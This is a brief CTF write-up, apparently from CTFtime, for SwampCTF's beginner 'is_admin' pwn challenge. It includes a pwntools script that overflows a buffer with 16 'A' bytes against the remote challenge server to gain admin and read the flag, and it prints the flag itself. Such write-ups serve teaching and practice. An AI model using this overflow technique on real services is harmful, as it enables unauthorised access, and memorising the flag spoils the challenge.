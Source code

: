 https://ctftime.org/event/2573

# beginner_pwn_1 (pwn)

Are you really admin?

This challenge serves as an introduction to pwn that new ctfers can use to grasp basic pwn concepts.

nc chals.swampctf.com 40004

## Solution

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./is_admin", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("chals.swampctf.com", 40004)

p.sendline(b"A" * 16)

p.sendline(b"y")

p.readuntil(b"swampCTF{")

print("swampCTF{" + p.readuntil(b"}").decode()) # swampCTF{n0t_@11_5t@ck5_gr0w_d0wn}
```

## Flag
`swampCTF{n0t_@11_5t@ck5_gr0w_d0wn}`

smiley 2025/03/29
